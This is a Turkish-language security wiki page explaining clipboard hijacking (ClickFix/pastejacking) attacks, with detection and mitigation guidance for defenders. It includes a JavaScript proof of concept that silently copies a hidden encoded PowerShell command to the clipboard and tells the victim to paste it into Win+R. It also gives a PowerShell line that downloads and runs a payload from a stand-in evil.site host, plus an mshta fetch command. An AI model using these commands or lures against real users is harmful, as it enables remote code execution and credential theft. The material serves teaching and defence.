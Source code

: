 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "Kendiniz kopyalamadığınız hiçbir şeyi yapıştırmayın." – eski ama hala geçerli bir tavsiye

## Overview

Clipboard hijacking – ayrıca *pastejacking* olarak da bilinir – kullanıcıların komutları incelemeden kopyalayıp yapıştırma alışkanlığından faydalanır. Kötü niyetli bir web sayfası (veya Electron veya masaüstü uygulaması gibi herhangi bir JavaScript uyumlu bağlam) programatik olarak saldırgan kontrolündeki metni sistem panosuna yerleştirir. Kurbanlar, genellikle dikkatlice hazırlanmış sosyal mühendislik talimatlarıyla, **Win + R** (Çalıştır penceresi), **Win + X** (Hızlı Erişim / PowerShell) tuşlarına basmaları veya bir terminal açıp *panodaki* içeriği yapıştırmaları için teşvik edilir, bu da hemen rastgele komutların yürütülmesini sağlar.

**Hiçbir dosya indirilmediği ve hiçbir ek açılmadığı için**, bu teknik, ekleri, makroları veya doğrudan komut yürütmeyi izleyen çoğu e-posta ve web içerik güvenlik kontrolünü atlar. Bu nedenle, saldırı, NetSupport RAT, Latrodectus yükleyici veya Lumma Stealer gibi ticari kötü amaçlı yazılım ailelerini dağıtan phishing kampanyalarında popülerdir.

## JavaScript Proof-of-Concept
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
Eski kampanyalar `document.execCommand('copy')` kullanıyordu, yenileri ise asenkron **Clipboard API** (`navigator.clipboard.writeText`) kullanıyor.

## ClickFix / ClearFake Akışı

1. Kullanıcı bir yazım hatası yapılmış veya ele geçirilmiş bir siteyi ziyaret eder (örneğin `docusign.sa[.]com`)
2. Enjekte edilmiş **ClearFake** JavaScript, sessizce bir Base64 kodlu PowerShell tek satırını panoya kaydeden `unsecuredCopyToClipboard()` yardımcı fonksiyonunu çağırır.
3. HTML talimatları kurbanı şunları yapmaya yönlendirir: *“**Win + R** tuşlarına basın, komutu yapıştırın ve sorunu çözmek için Enter'a basın.”*
4. `powershell.exe` çalıştırılır, meşru bir yürütülebilir dosya ile birlikte kötü niyetli bir DLL içeren bir arşiv indirir (klasik DLL yan yükleme).
5. Yükleyici ek aşamaları şifre çözer, shellcode enjekte eder ve kalıcılığı kurar (örneğin, planlanmış görev) – nihayetinde NetSupport RAT / Latrodectus / Lumma Stealer'ı çalıştırır.

### Örnek NetSupport RAT Zinciri
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (meşru Java WebStart) dizininde `msvcp140.dll` arar.
* Kötü niyetli DLL, API'leri dinamik olarak **GetProcAddress** ile çözer, iki ikili dosyayı (**data_3.bin**, **data_4.bin**) **curl.exe** aracılığıyla indirir, bunları bir döngüsel XOR anahtarı `"https://google.com/"` kullanarak şifrelerini çözer, son shellcode'u enjekte eder ve **client32.exe** (NetSupport RAT) dosyasını `C:\ProgramData\SecurityCheck_v1\` dizinine çıkarır.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. **curl.exe** ile `la.txt` indirir
2. **cscript.exe** içinde JScript indiricisini çalıştırır
3. MSI yüklemesini alır → imzalı bir uygulamanın yanına `libcef.dll` bırakır → DLL yan yükleme → shellcode → Latrodectus.

### MSHTA ile Lumma Stealer
```
mshta https://iplogger.co/xxxx =+\\xxx
```
**mshta** çağrısı, `PartyContinued.exe`'yi alıp, `Boat.pst`'yi (CAB) çıkartarak, `AutoIt3.exe`'yi `extrac32` ve dosya birleştirme ile yeniden inşa eden ve sonunda tarayıcı kimlik bilgilerini `sumeriavgv.digital`'a dışarı aktaran bir `.a3x` scripti çalıştıran gizli bir PowerShell scriptini başlatır.

## Tespit ve Avlanma

Mavi takımlar, yapıştırma istismarı tespit etmek için panoya, işlem oluşturma ve kayıt defteri telemetrisini birleştirebilir:

* Windows Kayıt Defteri: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`, **Win + R** komutlarının bir geçmişini tutar – alışılmadık Base64 / obfuscate edilmiş girişleri arayın.
* Güvenlik Olay ID **4688** (İşlem Oluşturma) burada `ParentImage` == `explorer.exe` ve `NewProcessName` { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` } içinde.
* Olay ID **4663**, şüpheli 4688 olayından hemen önce `%LocalAppData%\Microsoft\Windows\WinX\` veya geçici klasörler altında dosya oluşturma için.
* EDR pano sensörleri (varsa) – `Clipboard Write` ile hemen ardından yeni bir PowerShell işlemi arasında ilişki kurun.

## Hafifletmeler

1. Tarayıcı güçlendirme – pano yazma erişimini devre dışı bırakın (`dom.events.asyncClipboard.clipboardItem` vb.) veya kullanıcı jesti gerektirin.
2. Güvenlik farkındalığı – kullanıcılara hassas komutları *yazmayı* veya önce bir metin editörüne yapıştırmayı öğretin.
3. PowerShell Kısıtlı Dil Modu / Çalıştırma Politikası + Uygulama Kontrolü, keyfi tek satırlık komutları engellemek için.
4. Ağ kontrolleri – bilinen yapıştırma istismarı ve kötü amaçlı yazılım C2 alanlarına giden istekleri engelleyin.

## İlgili Hileler

* **Discord Davet İstismarı**, kullanıcıları kötü niyetli bir sunucuya çekmenin ardından aynı ClickFix yaklaşımını sıkça istismar eder:
{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## Referanslar

- [Tıklamayı Düzelt: ClickFix Saldırı Vektörünü Önleme](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}

